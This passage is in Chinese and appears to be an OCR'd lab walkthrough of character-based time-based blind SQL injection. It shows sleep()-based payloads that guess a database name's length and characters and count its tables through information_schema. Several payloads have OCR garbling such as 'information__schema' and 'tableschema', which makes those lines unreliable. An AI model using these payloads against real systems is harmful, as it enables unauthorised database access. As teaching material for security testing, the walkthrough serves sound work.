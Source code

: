 
说明存在字符型的基于时间的盲注。

1. 猜解当前数据库名

首先猜解数据名的长度：


```text
1’ and if(length(database())=1,sleep(5),1) # 没有延迟

1’ and if(length(database())=2,sleep(5),1) # 没有延迟

1’ and if(length(database())=3,sleep(5),1) # 没有延迟

1’ and if(length(database())=4,sleep(5),1) # 明显延迟

```


说明数据库名长度为4个字符。


接着采用二分法猜解数据库名：


```text
1’ and if(ascii(substr(database(),1,1))>97,sleep(5),1)# 明显延迟

…

1’ and if(ascii(substr(database(),1,1))<100,sleep(5),1)# 没有延迟

1’ and if(ascii(substr(database(),1,1))>100,sleep(5),1)# 没有延迟

```


说明数据库名的第一个字符为小写字母d。


…


重复上述步骤，即可猜解出数据库名。

1. 猜解数据库中的表名

首先猜解数据库中表的数量：


```text
1’ and if((select count(table_name) from information__schema.tables where tableschema=database() )=1,sleep(5),1)# 没有延迟

1’ and if((select count(table__name) from information__schema.tables where tableschema=database() )=2,sleep(5),1)# 明显延迟_

```


说明数据库中有两个表。
